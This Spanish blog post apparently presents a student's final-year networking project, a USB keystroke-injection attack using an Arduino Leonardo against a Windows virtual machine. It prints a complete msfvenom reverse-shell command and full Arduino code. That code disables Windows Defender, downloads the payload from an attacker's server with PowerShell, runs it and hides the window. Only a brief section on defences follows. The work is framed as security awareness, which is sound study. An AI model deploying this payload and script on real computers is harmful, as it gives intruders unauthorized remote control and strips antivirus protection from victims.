 ```yaml
---
title: Mi Trabajo de Fin de Grado ASIR
published: true
---
```


# Titulo: "WorseCase"

![imagen](https://github.com/user-attachments/assets/385088de-2157-423a-ad6a-4047414cbdf1)

Buenas, en este post hablaremos sobre mi Trabajo de Fin de Grado (TFG) que realicé este año para completar el grado superior de Administración de Sistemas Informáticos en Red (ASIR).

# Introducción

En este trabajo, se comprobará el peligro que supone para cualquier persona u organización dejar los equipos sin control y manipulables por cualquier persona. Se demostrará utilizando una placa “Arduino Leonardo” cómo se puede llegar a tener acceso remoto sin tocar el teclado y de forma rápida.

Además, se explicará hasta dónde puede llegar esta herramienta y de qué formas se puede neutralizar este ataque.

El objetivo final es demostrar el peligro de dejar desatendido el equipo y cómo mejorar la seguridad de los sistemas.

# Recursos a utilizar

**Máquina virtual:** Se utilizará una máquina virtual con sistema operativo Windows para crear un entorno de prueba para probar el funcionamiento de la placa.

**Arduino IDE:** Software para programar y subir scripts a las placas Arduino

**Placa Arduino Leonardo:** Placa que tiene compatibilidad con HID (Human Interface Device)

**Netcat:** Una herramienta para recibir una conexión remota y tener acceso al equipo

**Msfvenom:** Herramienta de línea de comandos que se utiliza para generar payloads personalizados para una amplia variedad de sistemas operativos y arquitecturas.

**PowerShell:** Es una interfaz de consola con posibilidad de escritura y unión de comandos por medio de instrucciones.

# Prueba de Concepto

Se creará un script que sea ejecutable por la placa Arduino, la conectaremos por USB a la máquina víctima y se creará una conexión remota a la máquina atacante, dándole acceso de forma no autorizada.

![imagen](https://github.com/user-attachments/assets/43b88527-472d-46a1-85df-08942b39664f)

## Creación de exploit con msfvenom

Seleccionamos el payload, indicamos el host que recibirá la conexión, el puerto al que debe conectarse, la arquitectura del archivo, la extensión y el nombre del archivo.

msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.2.20 LPORT=9001 -a x64 -f exe -o eskere.exe

![imagen](https://github.com/user-attachments/assets/a62ba1a0-7495-42fc-b5eb-61de04e890a9)

Por último, abriremos un servidor HTTP con Python con el archivo malicioso generado y lo dejaremos escuchando.

![imagen](https://github.com/user-attachments/assets/e9f537e6-064c-43b5-a772-61bc4d1b567d)


## Configuración de placa Arduino

Para que el ataque funcione, debemos verificar y subir el código a la placa. Este código realiza todos los pasos de forma automática en el proceso para vulnerar la máquina.

Con este código podremos activar la placa si realizamos un puente con el puerto de tierra (GND) y con el puerto 2.

```arduino
#include <Keyboard.h>
void typeKey(uint8_t key){
Keyboard.press(key);
delay(50);
Keyboard.release(key);
}
void setup() {
pinMode(2,INPUT);
digitalWrite(2,HIGH);
Keyboard.begin();
while(digitalRead(2)){
}
delay(2000);
Keyboard.write(KEY_LEFT_GUI);
Keyboard.releaseAll();
delay(2000);

Keyboard.println("windows se");
delay(3000);
Keyboard.println("");delay(3000);
Keyboard.println("");
delay(3000);

Keyboard.press(KEY_TAB);
Keyboard.releaseAll();
delay(1000);

Keyboard.press(KEY_TAB);
Keyboard.releaseAll();
delay(1000);

Keyboard.press(KEY_TAB);
Keyboard.releaseAll();
delay(1000);

Keyboard.write(KEY_TAB);
Keyboard.releaseAll();
delay(1000);

Keyboard.println("cmd");
delay(3000);
Keyboard.println("");
delay(2000);

Keyboard.print("powershell iwr -uri http://192.168.2.20:8000/eskere.exe -OutFile ./eskere.exe -UseBasicParsing");
delay(2500);
Keyboard.println("");
delay(3500);

Keyboard.println("eskere.exe");
delay(3500);

Keyboard.println("");
delay(2500);

Keyboard.press(KEY_LEFT_ALT);
Keyboard.press(KEY_F4);
delay(100);
Keyboard.releaseAll();
```

## Ataque

Se conectará a la placa un cable que conecte el puerto GND con el puerto 2. Después, se conectará por el puerto USB a la máquina víctima y el script de la placa se ejecutará.

Al ejecutar el script, el proceso automático será el siguiente:

- 1º Accederá al panel de “Windows Defender”, lo desactivará y lo cerrará.

- 2º Abrirá una terminal “CMD” y ejecutará un comando de PowerShell para descargarse de la máquina atacante el archivo que permitirá la conexión remota.

- 3º Ejecutará el archivo malicioso y cerrará la terminal, aparentando que nada hubiera ocurrido.

Cuando termine el proceso, se tendrá en la pantalla de la máquina atacante una conexión remota y control total de la máquina víctima.

### Video
[Video de prueba de concepto](https://drive.google.com/file/d/1IH2ce5XjQ3JLyCjTIZH3coHuVfHw2f7v/view?usp=sharing)

# Defensas
Ante este tipo de ataques, existen muy pocas medidas de seguridad, por lo que se debe concienciar a los usuarios de los peligros que puede suponer el uso descuidado de los ordenadores.

Para defenderse contra estas placas, se aconseja:

- No dejar desatendido cualquier equipo. Con tan solo bloquear el equipo mientras no se utilice, ya se deja inutilizada la placa.

- Bloquear físicamente o desde la BIOS cualquier puerto USB que no se vaya a utilizar, para que al conectar la placa no pueda ejecutar nada.

# Conclusión

En conclusión, el proyecto explica la creación de un ataque por USB que podría inutilizar un equipo o sistema y la securización de este. Implementando medidas de seguridad para mitigar el impacto de este ataque, se logra la protección y seguridad de equipos personales o empresariales.

¡Espero que os haya gustado el post!

![ZRPK](https://github.com/user-attachments/assets/efd20496-6fbc-41d6-af7b-84471c9bc893)
